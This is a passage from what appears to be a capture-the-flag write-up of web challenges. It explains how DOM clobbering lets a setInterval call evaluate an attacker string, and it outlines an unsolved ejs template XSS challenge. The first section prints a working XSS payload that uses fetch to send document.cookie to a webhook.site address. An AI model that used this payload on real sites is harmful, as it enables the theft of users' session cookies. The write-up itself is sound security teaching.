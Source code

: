 ``` js
const createBlink = async (html) => {
  const sandbox = wrap(
    $("#viewer").appendChild(document.createElement("iframe"))
  );

  // I believe it is impossible to escape this iframe sandbox...
  sandbox.sandbox = sandboxAttribute;

  sandbox.width = "100%";
  sandbox.srcdoc = html;
  await new Promise((resolve) => (sandbox.onload = resolve));

  const target = wrap(sandbox.contentDocument.body);
  target.popover = "manual";
  const id = setInterval(target.togglePopover, 400);

  return () => {
    clearInterval(id);
    sandbox.remove();
  };
};
```

It is not possible to bypass the sandbox in the iframe, but the key is the line of code `setInterval(target.togglePopover, 400)`.

If `target.togglePopover` is a string, it can be used as an eval.

And `target` is `sandbox.contentDocument.body`, which can be used to DOM clobber `document.body` with `name`, and then clobber `togglePopover` to complete the task.

```html
<iframe name=body srcdoc="<a id=togglePopover href=a:fetch(`http://webhook.site/2ba35f39-faf4-4ef2-86dd-d85af29e4512?q=${document.cookie}`)></a>"></iframe>
```

### eeeeejs (12 solves)

Unfortunately, I couldn't solve this question even after trying for a long time QQ

The core code for this question is as follows:

``` js
const ejs = require("ejs");

const { filename, ...query } = JSON.parse(process.argv[2].trim());
ejs.renderFile(filename, query).then(console.log);
```

You can control `filename` and `query`, and the goal is XSS.

The CSP is set to self, which means that as long as you create `<script src=/>` and construct a valid JS code, you can get the flag.

But another limitation here is that you can only read files under `src`, so your template is limited.
